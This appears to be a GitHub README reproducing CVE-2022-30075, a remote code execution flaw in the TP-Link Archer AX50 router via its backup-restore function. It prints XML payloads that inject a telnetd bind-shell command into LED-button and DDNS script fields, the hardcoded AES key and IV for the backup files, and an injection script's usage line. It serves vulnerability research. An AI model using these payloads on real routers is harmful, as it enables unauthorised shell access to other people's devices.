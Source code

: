 # description

Reproduce CVE-2022-30075.

# status

* [x] Root cause analysis

* [x] Patch script

* [ ] Reproduce (due to the restore function triggering nvram -> not emulate yet)

# root cause analysis

## press the LED button

The root cause lies in the backup & restore function of the web portal. Encrypted XML files within the backup contains various configurations.
Upon decrypion of `ori-backup-user-config.bin`, a child element is found, binding the LED button's function to `/lib/led_switch`. 

```xml
<button name="led_switch">
<action>pressed</action>
<button>ledswitch</button>
<handler>/lib/led_switch</handler>
</button>
```

This vulnerability can be exploited to spawn a bind shell with `telnetd`:

```xml
<button name="exploit">
<action>pressed</action>
<button>ledswitch</button>
<handler>/usr/sbin/telnetd -l /bin/login.sh</handler>
</button>
```

After repacking the modified configurations, the restore function can be used. Upon reboot, pressing the LED button will execute the injected command,
enabling a telnet connection to the router for shell access.

## auto trigger via DDNS

[Detecting WAN IP with script](https://openwrt.org/docs/guide-user/services/ddns/client#detecting_wan_ip_with_script)

The injected command can be automatically triggered without pressing the LED button by exploiting the DDNS function. 
This function is primarily designed to update the IP address across different networks and often includes the capability to execute scripts.

```xml
<ddns>
    <service name="dyndns">
        <enabled>off</enabled>
        <retry_times>5</retry_times>
        <force_unit>hours</force_unit>
        <ip_network>wan</ip_network>
        <service_name>dyndns.org</service_name>
        <ip_source>network</ip_source>
        <retry_interval>60</retry_interval>
        <retry_unit>seconds</retry_unit>
        <check_unit>hours</check_unit>
        <check_interval>1</check_interval>
        <force_interval>72</force_interval>
        <interface>wan</interface>
    </service>
</ddns>
```

Thankfully, the script is typically included in the backup XML, allowing for the placement of the injected command there.

```xml
<ddns>
    <service name="pwn">
        <enabled>on</enabled>
        <interface>internet</interface>
        <ip_source>script</ip_source>
        <ip_script>/usr/sbin/telnetd -l /bin/login.sh</ip_script>
        <check_interval>1</check_interval>
        <check_unit>hours</check_unit>
        <retry_interval>60</retry_interval>
        <retry_times>5</retry_times>
        <retry_unit>seconds</retry_unit>
        <force_interval>72</force_interval>
        <force_unit>hours</force_unit>
    </service>
</ddns>
```

## backup file 

Below is the structure of the backup file.

```mermaid
flowchart TD
    A[ori-backup-user-config.xml] --> |AES Encrypt| B[ori-backup-user-config.bin];
    C[ori-backup-router-config.xml] --> |AES Encrypt| D[ori-backup-router-config.bin];
    E[ori-backup-ap-config.xml] --> |AES Encrypt| F[ori-backup-ap-config.bin];
    G[ori-backup-certificate.xml] --> |AES Encrypt| H[ori-backup-certificate.bin];
    B & D & F & H --> I;
    J[md5sum] --> K{zlib compress};
    I{tar compress} --> K;
    K --> |AES Encrypt| L[backup-Archer AX50-2024-04-19.bin];
```

The AES mode used here is CBC with the following key and IV employed at all stage:

```
Key: 2EB38F7EC41D4B8E1422805BCD5F740BC3B95BE163E39D67579EB344427F7836
IV:  360028C9064242F81074F4C127D299F6
```

These can be easily retrieved by `strings squashfs-root/usr/lib/lua/luci/model/crypto.lua`.

# patch script

This script is used to inject a command as a DDNS service into the backup file.

```sh
./inject.py backup-Archer\ AX50-2024-04-19.bin '/usr/sbin/telnetd -l /bin/login.sh'
```

# refs

* [Tp-Link Archer AX50 Authenticated RCE (CVE-2022-30075)](https://github.com/aaronsvk/CVE-2022-30075)
